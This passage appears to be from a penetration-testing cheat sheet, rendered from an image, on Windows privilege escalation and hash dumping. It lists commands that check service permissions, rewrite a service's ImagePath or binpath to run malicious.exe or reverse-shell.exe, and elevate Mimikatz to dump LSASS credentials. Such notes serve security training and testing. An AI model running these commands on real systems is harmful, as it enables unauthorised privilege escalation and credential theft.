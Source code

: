         ```
        .\accesschk.exe /accepteula -quvw user <service exe>
        ```
        
    - On a specific directory (look for **Unquoted Service Path**):
        
        ```
        .\accesschk.exe /accepteula -uwdq "C:"
        ```
        
    - On a specific registry:
        
        ```
        .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<service_name>
        ```
        
        - overwrite the **ImagePath** registry value:
            
            ```
            reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\malicious.exe /f
            ```
            
- modifying a configuration option of a service:
    
    ```
    sc.exe config <name> <option>= <value>
    ```
    
    - Example: changing `BINARY_PATH_NAME`:
        
        ```
        sc config daclsvc binpath= "\"C:\PrivEsc\reverse-shell.exe\""
        ```
        

## 🥝 Dumping hashes and tickets with `Mimikatz`

> Other hash dumping tools: `pwdump`,[`fgdump`](http://foofus.net/goons/fizzgig/fgdump/downloads.htm),[**Windows Credential Editor**](https://www.ampliasecurity.com/research/windows-credentials-editor/) (`wce`) for older versions of Windows
 
- ask for **SeDebugPrivilege** in order to interact with the LSASS process and processes owned by other accounts (to be executed as administrator):
    
    ```
    mimikatz # privilege::debug
    Privilege '20' OK
    ```
    
- elevate the security token from high integrity (administrator) to SYSTEM integrity (not needed if `mimikatz` is launched from a SYSTEM shell)
    
    ```
    mimikatz # token::elevate
    ```
    
- dumping all password hashes:
    